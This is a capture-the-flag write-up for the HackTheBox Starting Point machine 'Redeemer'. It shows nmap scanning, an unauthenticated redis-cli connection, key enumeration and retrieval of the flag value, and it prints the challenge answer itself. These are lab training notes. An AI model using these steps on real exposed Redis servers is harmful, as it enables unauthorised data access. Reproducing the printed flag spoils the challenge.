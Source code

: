```yaml
---
title: HackTheBox - Redeemer 
date: 2023-08-01
categories: [HackTheBox, StartingPoint]
tags: []
---
```


# Redeemer

_Which TCP port is open on the machine?_

```bash
$ nmap -sC -sV <ip>
no port open

$ nmap -sC -sV -p- <ip>
...
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```

_Which service is running on the port that is open on the machine?_

`Redis`

_What type of database is Redis?_

`In-memory Database`

_Which command-line utility is used to interact with the Redis server?_

`redis-cli`

_Which flag is used with the Redis command-line utility to specify the hostname?_

`-h <hostname>`

_Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?_

```bash
$ redis-cli -h <hostname> -p <port>
hostname:port> info
```

_What is the version of the Redis server being used on the target machine?_

`5.0.7`

_Which command is used to select the desired database in Redis?_

`select`

_How many keys are present inside the database with index 0?_

```bash
hostname:port> info
...
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
...
```

_Which command is used to obtain all the keys in a database?_

`keys *`

_Submit root flag_

```bash
hostname:port> keys * 
1) "temp" 
2) "stor" 
3) "numb" 
4) "flag" 
hostname:port> keys 4 
(empty array) 
hostname:port> keys flag 
1) "flag" 
hostname:port> get flag 
"03e1d2b376c37ab3f5319922053953eb"
```
